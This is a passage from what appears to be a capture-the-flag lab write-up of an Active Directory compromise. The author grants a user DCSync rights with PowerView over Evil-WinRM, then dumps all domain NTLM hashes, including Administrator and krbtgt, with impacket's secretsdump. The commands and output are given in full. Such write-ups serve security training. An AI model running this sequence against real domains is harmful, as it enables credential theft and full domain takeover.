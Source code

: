 ```none
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

I then granted the `r0kit` user the ability to synchronize the domain controller using the `PowerView.ps1` script from the [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) post-exploitation framework:


```none
*Evil-WinRM* PS C:\Windows\Temp\r0kit2> upload '/home/kali/tools/PowerSploit/Recon/PowerView.ps1'
Info: Uploading /home/kali/tools/PowerSploit/Recon/PowerView.ps1 to C:\Windows\Temp\r0kit2\PowerView.ps1


Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!


*Evil-WinRM* PS C:\Windows\Temp\r0kit2> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Windows\Temp\r0kit2> Add-DomainObjectAcl -PrincipalIdentity r0kit -Rights DCSync
```

After granting the `r0kit` user domain controller replication permissions, I synched the Active Directory database (NTDS.dit) with impacket's `secretsdump.py` script to dump all NTLM hashes from it:

```none
$ python3 ~/tools/impacket/examples/secretsdump.py 'htb.local/r0kit:h4ckit!!@10.10.10.161'
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```